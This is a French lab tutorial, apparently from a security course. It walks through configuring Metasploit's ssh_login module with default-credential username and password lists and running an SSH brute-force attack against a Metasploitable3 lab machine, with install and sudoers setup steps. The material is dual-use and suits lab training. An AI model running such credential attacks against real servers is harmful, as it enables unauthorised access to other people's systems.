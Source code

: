 ## LAB6 - PARTIE2 - Configuration et Utilisation de Metasploit pour Attaque par Force Brute SSH

# 1 -  Description
Ce document fournit des instructions détaillées pour utiliser Metasploit afin de lancer une attaque par force brute SSH contre une machine cible, en l'occurrence Metasploitable3. Ce guide couvre la préparation des fichiers nécessaires, la configuration de Metasploit, et le lancement de l'attaque.

# 2 -  Prérequis
- Un ordinateur ou une machine virtuelle avec Ubuntu 22.04 installé.
- Accès à un compte avec des privilèges d'administrateur.
- **Système d'exploitation**: Linux (Ubuntu 22.04 préféré)
- **Metasploit Framework installé**
- **Accès administratif sur la machine où Metasploit est installé**
- **Machine cible configurée et accessible sur le réseau**

# 3 - Ajout de l'Utilisateur `eleve` au Fichier sudoers
1. **Ouvrez un terminal.**
2. Devenez superutilisateur pour modifier les fichiers de configuration système:
   ```bash
   su
   ```
3. Éditez le fichier sudoers pour ajouter des privilèges administratifs à `eleve`:
   ```bash
   visudo
   ```
4. Ajoutez la ligne suivante pour donner à `eleve` les droits sudo:
   ```
   eleve ALL=(ALL) ALL
   ```
5. **Enregistrez et quittez** l'éditeur. Utilisez `CTRL+X`, suivi de `Y` pour enregistrer si vous utilisez `nano` comme éditeur dans `visudo`.

6. Tapez `exit` pour retourner à la session de l'utilisateur `eleve`.


# 4 - (MÉTHODE#1) Installation de Metasploit (si non installé)
1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```
# 4 - (MÉTHODE#2) Installation de Metasploit Framework
1. **Ouvrez un terminal sous le compte `eleve`.**
2. Mettez à jour les paquets et installez les dépendances:
   ```bash
   sudo apt update
   sudo apt install curl gnupg2 software-properties-common
   ```
3. **Ajoutez le dépôt officiel de Metasploit**:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
4. **Vérifiez l'installation** en démarrant Metasploit:
   ```bash
   msfconsole
   ```



# 5 - Étape 1: Préparation des Fichiers de Noms d'Utilisateurs et de Mots de Passe
1. **Création des fichiers** :
   - Créez les fichiers contenant les noms d'utilisateurs et les mots de passe que vous prévoyez d'utiliser pour l'attaque.
     ```bash
     echo -e "root\nadmin\nuser\ntest\nguest\ninfo\noperator" > /home/eleve/usernames.txt
     echo -e "password\n123456\nadmin\nguest\n123123\npassword1\nqwerty\n12345\n123456789\ntest" > /home/eleve/passwords.txt
     ```

2. **Modification des permissions** :
   - Assurez-vous que les fichiers sont lisibles.
     ```bash
     chmod 644 /home/eleve/usernames.txt
     chmod 644 /home/eleve/passwords.txt
     ```

3. **Changement de propriétaire** :
   - Changez le propriétaire des fichiers pour garantir que Metasploit peut y accéder.
     ```bash
     sudo chown $(whoami) /home/eleve/usernames.txt
     sudo chown $(whoami) /home/eleve/passwords.txt
     ```

# 6 - Étape 2: Déplacement des Fichiers dans un Répertoire Accessible par Metasploit
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
  sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
  ```

# 7 - Étape 3: Configuration de Metasploit

1. ** Initialisation de la Base de Données Metasploit
- Initialisez la base de données PostgreSQL pour Metasploit** (ce qui améliore les performances de Metasploit et permet la persistance des données entre les sessions):
   ```bash
   msfdb init
   ```
2. **Lancement de Metasploit** :
   - Ouvrez Metasploit en utilisant la commande suivante :
     ```bash
     msfconsole
     ```

3. **Configuration du module SSH** :
   - Configurez Metasploit pour utiliser les fichiers déplacés et ciblez la machine appropriée.
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 172.28.128.3
     set USER_FILE /snap/metasploit-framework/usernames.txt
     set PASS_FILE /snap/metasploit-framework/passwords.txt
     set VERBOSE true
     ```

# 7 -  Étape 4: Lancement de l'Attaque
- Exécutez le module pour commencer l'attaque.
  ```bash
  run
  ```

### Conseils de Sécurité
- **Permissions**: Vérifiez régulièrement que les permissions des fichiers sont correctement configurées pour éviter tout accès non autorisé.
- **Légalité**: Assurez-vous d'avoir l'autorisation explicite de tester la machine cible. L'utilisation de Metasploit sans consentement est illégale.

### Dépannage
- Si des problèmes surviennent, vérifiez les logs de Metasploit pour des détails sur les erreurs. Assurez-vous que les chemins des fichiers sont corrects et que les fichiers ne sont pas corrompus.

---

Ce document devrait vous fournir une base solide pour l'utilisation sécurisée et efficace de Metasploit dans vos tests de pénétration. Assurez-vous de suivre les meilleures pratiques de sécurité et de conformité légale lors de vos tests.
